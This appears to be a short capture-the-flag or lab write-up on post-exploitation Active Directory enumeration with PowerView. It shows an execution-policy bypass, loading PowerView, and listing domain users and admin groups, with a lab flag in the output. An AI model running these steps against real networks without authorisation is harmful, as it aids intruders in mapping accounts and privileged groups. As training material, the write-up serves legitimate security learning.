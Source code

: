 ## Enumeration w/ Powerview

![](2025-05-31-post-exploitation-basics-2.png)

Powerview is a powerful powershell script from powershell empire that can be used for enumerating a domain after you have already gained a shell in the system.

### 1. Start Powershell

```
powershell -ep bypass
```

![](2025-05-31-post-exploitation-basics-3.png)

this will bypass the execution policy of powershell allowing you to easily run scris.

### 2. Start PowerView

```
. .\Downloads\PowerView.ps1
```

### 3. Enumerate the domain users

```
Get-NetUser | select cn
```

```
PS C:\Users\Administrator> Get-NetUser | select cn

cn
--
Administrator
Guest
krbtgt
Machine-1
Admin2
Machine-2
SQL Service
POST{P0W3RV13W_FTW}
sshd
```

### 4. Enumerate the domain groups

```
Get-NetGroup -GroupName *admin*
```

![](2025-05-31-post-exploitation-basics-4.png)

Now enumerate the domain further on your own
